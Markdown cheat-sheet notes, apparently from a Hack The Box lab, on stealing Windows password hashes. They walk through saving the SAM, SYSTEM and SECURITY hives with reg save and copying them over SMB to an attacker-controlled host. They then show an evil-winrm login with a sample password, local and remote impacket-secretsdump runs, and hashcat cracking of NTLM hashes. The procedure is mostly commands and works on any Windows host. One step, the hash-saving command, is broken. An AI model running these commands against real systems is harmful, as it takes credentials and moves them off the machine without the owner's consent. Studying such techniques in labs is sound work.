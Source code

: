 


[Cicada HTB](https://www.hackthebox.com/machines/cicada)

The Security Account Manager (SAM) is a database file in windows that sotres user credentials, including NTLM and sometimes LM hashes of user passwords. These hashes are stored in protected registry hive and are used to authenticate users on the system.

## SAM Operation Modes:

*   **Online Mode** - Requires SYSTEM user or token to access
*   **Offline Mode** - Requires SYSTEM and SAM registry hives or backup files

##  Location of SAM files:

```powershell
%SystemRoot%\System32\config\SAM
```

It is mounted on ```HKLM\SAM```

---

## Common Locations of SAM and SYSTEM files

```powershell
%SystemRoot%\repair\SAM
%SystemRoot%\System32\config\RegBack\SAM
%SystemRoot%\System32\config\SAM
%SystemRoot%\repair\system
%SystemRoot%\System32\config\SYSTEM
%SystemRoot%\System32\config\RegBack\SYSTEM
```

**Note:** `%SystemRoot%` is usually `C:\Windows`.

---

##  Extracting Windows Password Hashes
 
### Step 1: Save SAM, SYSTEM and SECURITY Hives

use the `reg save` command to export the registry hives

```cmd
mkdir c:\pass
```
```cmd
reg save hklm\sam C:\pass\sam
```
```cmd
reg save hklm\system C:\pass\system
```
```cmd
reg save hklm\security C:\pass\security
```



</br>

###  Step 2: Transfer Files to Attacker Machine

Start an SMB server using impacket:

```bash
python smbserver.py public /home/Public
```

Alternate:

```bash
impacket-smbserver -smb2support -user user -password 12345 share /opt/share
```

copy the files over the network

```cmd
copy sam \\192.168.29.218\Public\
```

```cmd
copy system \\192.168.29.218\Public\
```

Alternative:
```bash
evil-winrm -u Administrator -p Devnull@123 -i 192.168.29.21
```
</br>


### Step 3: Clone and install Impacket

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```
```bash
cd impacket
```
```bash
pip install .

```

</br>


### Step 4: Extract Password Hashes with `secretsdump`

```bash
impacket-secretsdump -sam sam -security security -system system LOCAL
```

</br>


### Step 5: Save the NTLM hash to a file

```bash
<hash> > hash.txt
```

</br>



### Step 6: Crack NTLM Hash with `hashcat`

```bash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlist/rockyou.txt -o hash.out.txt
```


---

</br>


## Dumping Remote Hashes using `secretsdump`

```bash
impacket-secretsdump <hostname>/<username>:<password>@<target_IP>
```

**you can use the above command without hostname as well**

</br>

---


##  Extracting BootKey from SYSTEM Hive

```cmd
bkhive system bootkey.txt
```

---

##  Tips and Best Practices


*   Do not change password 
*   Only work when you are administrator
*   generally used when you want to go to different machine/account via this.
*   database of non AD user/local PC database